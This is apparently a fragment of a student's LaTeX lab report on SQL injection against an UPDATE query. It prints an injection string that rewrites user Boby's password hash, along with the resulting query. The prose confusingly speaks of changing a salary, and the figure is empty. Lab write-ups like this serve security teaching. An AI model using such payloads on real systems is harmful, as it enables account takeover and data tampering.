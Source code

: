 \documentclass[a4paper,11pt]{article}
\begin{document}
\verb|B', Password=SHA1('huangkl') where name='Boby' #| 

shown in \ref{fig:task15.8} to modify the salary of the user, beacuse the UPDATE SQL Query will become 

\verb|UPDATE credential SET nickname='B', Password=SHA1('huangkl') where name='Boby' #|, 

the result is shown in Figure \ref{fig:task15.9}, which indicates that the script successfully executed the SQL injection attack, modifying the salary of the user to the specified value.


\begin{figure}[h]
    \centering
    \hfill
    \hfill
    \hfill
    \caption{SQL Injection Attack on UPDATE 3}\label{fig:task15-3}
\end{figure}
\end{document}
